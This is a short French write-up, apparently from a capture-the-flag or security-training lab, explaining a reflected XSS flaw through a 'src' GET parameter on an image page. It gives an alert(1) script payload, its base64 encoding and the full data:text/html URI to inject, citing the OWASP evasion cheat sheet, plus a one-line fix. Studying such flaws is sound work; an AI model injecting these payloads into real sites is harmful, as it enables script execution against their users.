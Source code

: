 Ici la faille exploité est aussi une faille XSS mais via la méthode GET "src" du site.
Pour y accéder il faut ce rendre sur la page de l'image NSA a la fin dee la pge d'accueil.

le payload :
    <script>alert(1)</script> en base64 => PHNjcmlwdD5hbGVydCgxKTwvc2NyaXB0Pg==

puis il faut insérer tout ceci derrière src= dans le lien du site : data:text/html;base64,PHNjcmlwdD5hbGVydCgxKTwvc2NyaXB0Pg==

Sources concernant le payload :
    EMBED SVG Which Contains XSS Vector from https://owasp.org/www-community/xss-filter-evasion-cheatsheet

Pour éviter ce genre de faille l'idéal serais de stocker ces images dans une base de donnée
